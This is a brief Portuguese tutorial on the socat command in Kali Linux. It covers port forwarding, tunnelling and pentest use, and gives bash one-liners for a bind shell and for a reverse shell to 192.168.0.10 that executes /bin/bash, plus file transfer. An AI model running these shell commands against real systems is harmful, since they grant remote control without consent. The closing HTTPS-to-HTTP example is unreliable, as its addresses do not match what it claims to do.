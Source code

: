 
---

O comando `socat` no Kali Linux (e em outras distribuições) é uma ferramenta poderosa para manipular conexões de rede. Seu nome vem de "socket cat", e ele é frequentemente comparado ao comando `netcat` devido à sua funcionalidade semelhante, mas com mais recursos.

### Principais funções do `socat`:

1. **Encaminhamento de portas (Port Forwarding)**: O `socat` pode redirecionar tráfego de uma porta para outra, seja local ou remota.

2. **Criação de túneis**: Pode criar túneis para encapsular e proteger conexões, inclusive combinando com outras ferramentas.

3. **Teste e depuração de conexões de rede**: O `socat` pode atuar como servidor ou cliente para testar comunicações.

4. **Proxy de rede**: Serve como intermediário para conexões, permitindo modificar o tráfego.

5. **Interações entre dispositivos ou streams**: Permite conectar diferentes tipos de entradas e saídas, como sockets, arquivos, terminais, dispositivos seriais, etc.

6. **Reverso e Bind Shells**: Muito utilizado em pentests para criar conexões reversas ou listeners para acesso remoto.

### Exemplos práticos:

1. **Redirecionar tráfego da porta 80 para 8080**:

```bash
socat TCP4-LISTEN:80,fork TCP:127.0.0.1:8080
```

2. **Configurar um listener (bind shell)**:

```bash
socat TCP4-LISTEN:4444 EXEC:/bin/bash
```

3. **Criar uma conexão reversa (reverse shell)**:

```bash
socat TCP4:192.168.0.10:4444 EXEC:/bin/bash
```

4. **Transferir arquivos**: **No lado do receptor**:

```bash
socat TCP-LISTEN:1234 - > arquivo.txt
```

**No lado do remetente**:

```bash
socat -u FILE:arquivo.txt TCP:192.168.0.10:1234
```

5. **Encaminhar tráfego HTTPS para HTTP**:

```bash
socat TCP-LISTEN:443,reuseaddr,fork SSL:127.0.0.1:80
```
